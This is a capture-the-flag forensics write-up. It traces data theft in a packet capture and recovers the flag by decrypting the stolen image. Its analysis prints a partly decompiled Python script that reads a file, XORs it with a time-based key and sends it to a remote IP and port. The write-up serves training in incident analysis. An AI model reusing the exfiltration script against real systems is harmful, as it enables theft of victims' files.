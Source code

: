 ## forensics/slingshot

We have recently suffered a data breach, and we need help figuring out if any data was stolen. Can you investigate this pcap file and see if there is any evidence of data exfiltration and if possible, what was stolen.

**Given:** `Slingshot.pcapng`

## Analysis
The given pcap file has 30 TCP streams. On stream 29 we can see that there was a file named `download.pyc` downloaded to victim's machine. We can extract the file from the pcap file and decompile it to understand what was stolen.

![wireshark](wireshark.png)

The file `download.pyc` is a compiled python bytecode file. I used [`pycdc`](https://github.com/zrax/pycdc) to decompile the file and got the following python code.

### download.py (decompiled from download.pyc)
```python
# Source Generated with Decompyle++
# File: download.pyc (Python 3.11)

import sys
import socket
import time
import math
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
file = sys.argv[1]
ip = sys.argv[2]
port = 22993
with open(file, 'rb') as r:
    data_bytes = r.read()
    None(None, None)
with None:
    with None:
        if not None:
            pass
current_time = time.time()
current_time = math.floor(current_time)
key_bytes = str(current_time).encode('utf-8')
init_key_len = len(key_bytes)
data_bytes_len = len(data_bytes)
temp1 = data_bytes_len // init_key_len
temp2 = data_bytes_len % init_key_len
key_bytes *= temp1
key_bytes += key_bytes[:temp2]
encrypt_bytes = (lambda .0: pass# WARNING: Decompyle incomplete
)(zip(key_bytes, data_bytes)())
s.connect((ip, port))
s.send(encrypt_bytes)
```

The python bytecode was for `python 3.11` and many of the decompilers don't have reliable support above `python 3.9`. We have to infer based on the partial decompilation we got.

## Solution
The `download.py` script reads a file and sends it to a remote server. The file is encrypted using a key generated from the current time. The file is then encrypted by XORing the key and the file data. The encrypted file is then sent to the remote server.
So, the next TCP stream (stream 30) in the pcap file should contain the encrypted file. We can extract the file and decrypt it using the same key to get the original file. The key can be recovered by timestamp of the packet in the pcap file. I used [CyberChef](https://gchq.github.io/CyberChef/) to decrypt the file. The decrypted file is an image with flag.

## Flag
![flag](extracted.jpg)